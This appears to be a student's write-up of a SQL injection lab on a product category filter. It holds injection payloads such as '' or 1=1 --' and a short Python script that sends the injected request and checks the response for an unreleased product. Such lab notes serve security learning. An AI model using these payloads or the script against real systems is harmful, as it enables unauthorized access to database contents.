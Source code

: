 This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

**Notes:** 

```sql
SQL injection - product category filter

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

**Goal:** display all products both released and unreleased.

**Analysis:** 

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1

SELECT * FROM products WHERE category = ''' AND released = 1 

SELECT * FROM products WHERE category = ''--' AND released = 1 

SELECT * FROM products WHERE category = ''

SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
```

---

Script notes:

`GET /filter?category=Corporate+gifts'--`

This changed to: `GET /filter?category=Gifts'--`

![[Pasted image 20240830103324.png]]

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def unhide(url):
	show_all = url + "/filter?category=Gifts'--"
	r = requests.get(show_all, verify=False, proxies=proxies)
	if 'Lemon' in r.text:
		print('(+) Exploit success!')
		
	else:
		print('(-) Exploit failed.')
	
def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <URL>' % sys.argv[0])
		print('(+) Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)

	url = sys.argv[1]
	unhide(url)

if __name__ == '__main__':
	main()
```

- The options sometimes rotate so you may need to change the `show_all` variable to match up with what category you're using, and you'll need to change what the `if` statement is searching for in the `r.text` to find the new hidden item. 

